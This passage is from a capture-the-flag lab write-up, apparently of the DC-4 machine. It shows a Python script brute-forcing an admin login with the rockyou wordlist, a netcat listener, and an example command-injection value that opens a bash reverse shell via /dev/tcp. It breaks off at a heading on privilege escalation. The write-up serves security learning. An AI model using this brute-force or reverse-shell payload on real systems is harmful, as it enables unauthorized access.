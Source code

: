 ```python
import requests

url = "http://192.168.1.26/login.php"
i=0
with open("/usr/share/wordlists/rockyou.txt","r") as file:
    for line in file:
        i+=1
        password = line.strip()
        print(f"[*] {i} password tested. Current : ",password)
        data= {
            "username":"admin",
            "password":password
        }
        res = requests.post(url,data=data,allow_redirects=False)
        if len(res.text) != 206:
            print("[+] Found password : ",password)
            break
```
Running this script quickly found the correct password:
```bash
python3 bruteforce_login.py
# ... (output omitted for brevity)
[*] 463 password tested. Current :  happy
[+] Found password :  happy
```
The credentials `admin:happy` were successfully found.

Upon logging in with `admin:happy`, the `command.php` page became accessible. This page presented a simple interface to run commands like "List Files", "Disk Usage", and "Disk Free". The Burp Suite screenshot clearly shows the `ls -l` command being executed via the `radio` parameter in a POST request to `command.php`. This confirms a command injection vulnerability.

<img width="544" height="373" alt="image" src="https://github.com/user-attachments/assets/7351bd6f-9aeb-4e76-a073-81a2005d3b1b" />
<img width="1366" height="613" alt="image" src="https://github.com/user-attachments/assets/3b5b8bbc-54e6-404b-8f8b-e2fac472bc94" />

To gain a reverse shell, a `netcat` listener was set up on the attacking machine:
```bash
nc -lvnp 4444
```
Then, a reverse shell payload was injected via the `command.php` interface. While the exact payload used to get the shell is not explicitly shown in the provided logs, a common method would be to use a `bash` reverse shell command, for example, by modifying the `radio` parameter to something like `radio=ls+-l;bash+-i+>&+/dev/tcp/192.168.1.X/4444+0>&1&submit=Run`.

A shell was successfully obtained as the `www-data` user.
```bash
www-data@dc-4:/usr/share/nginx/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 3. Privilege Escalation to User `jim`
